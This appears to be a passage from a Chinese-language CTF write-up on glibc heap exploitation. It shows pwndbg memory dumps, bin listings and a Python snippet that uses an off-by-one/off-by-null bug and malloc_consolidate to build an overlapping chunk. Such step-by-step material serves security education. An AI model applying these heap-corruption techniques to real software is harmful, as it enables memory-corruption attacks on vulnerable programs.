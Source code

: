 效果如下

```
pwndbg&gt; x/50xg 0x555555757000
0x555555757000:    0x0000000000000000    0x0000000000000141 ------------合并之后的unsorted bin大小
0x555555757010:    0x00007ffff7dd1ca8    0x00007ffff7dd1ca8
0x555555757020:    0x0000000000000000    0x0000000000000000
0x555555757030:    0x0000000000000000    0x0000000000000000
0x555555757040:    0x0000000000000000    0x0000000000000101
0x555555757050:    0x00007ffff7dd1b78    0x00007ffff7dd1b78
0x555555757060:    0x0101010101010101    0x0101010101010101
0x555555757070:    0x0101010101010101    0x0101010101010101
0x555555757080:    0x0001010101010101    0x00000000000000c1
0x555555757090:    0x00007ffff7dd1b78    0x00007ffff7dd1b78
0x5555557570a0:    0x0202020202020202    0x0202020202020202
0x5555557570b0:    0x0202020202020202    0x0202020202020202
0x5555557570c0:    0x0002020202020202    0x0000000000000081
0x5555557570d0:    0x00007ffff7dd1b78    0x00007ffff7dd1b78
0x5555557570e0:    0x0303030303030303    0x0303030303030303
0x5555557570f0:    0x0303030303030303    0x0303030303030303
0x555555757100:    0x0003030303030303    0x0000000000000041 
0x555555757110:    0x00007ffff7dd1b78    0x00007ffff7dd1b78
0x555555757120:    0x0000000000000000    0x0000000000000000
0x555555757130:    0x0000000000000000    0x0000000000000000
0x555555757140:    0x0000000000000140    0x0000000000000040 -------------对应的pre_size为0x140,后面通过free此chunk来构造overlapped chunk。
0x555555757150:    0x0000000000000000    0x0000000000000000
0x555555757160:    0x0000000000000000    0x0000000000000000
0x555555757170:    0x0000000000000000    0x0000000000000000
0x555555757180:    0x0000000000000000    0x0000000000000041
pwndbg&gt; bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x140: 0x555555757000 ◂— 0x7ffff7dd1ca8 ----------------可以看到，已经成功的将fastbin合并
largebins
empty
pwndbg&gt;
```
1. 通过off_by_one修改unsorted bin大小，使得我们之后用来free chunk的pre_size保持不变，能够一直指向开始的chunk。然后申请一系列chunk，为构造overlapped chunk做准备。然后依次释放chunk 5 、chunk 1，最终触发malloc_consolidate()合并fastbin，形成overlapped chunk。
```
#we use off_by_null to shrink the unsorted bin size , to forbide the idx5_presize to be changed.
    alloc(0x28,'x00'*0x28)

    #malloc some chunk.
    alloc(0x37,'x01'*0x37) #idx 1 0x030
    alloc(0x17,'x02'*0x17) #idx 2 0x070
    alloc(0x37,'x03'*0x37) #idx 3 0x090
    alloc(0x37,'x00'*0x37) #idx 4 0x0d0
    alloc(0x17,'x00'*0x17) #idx 11 0x110

    #put the chunk in fastbin to make overlapped chunk.
    delete(5)
    delete(1)

```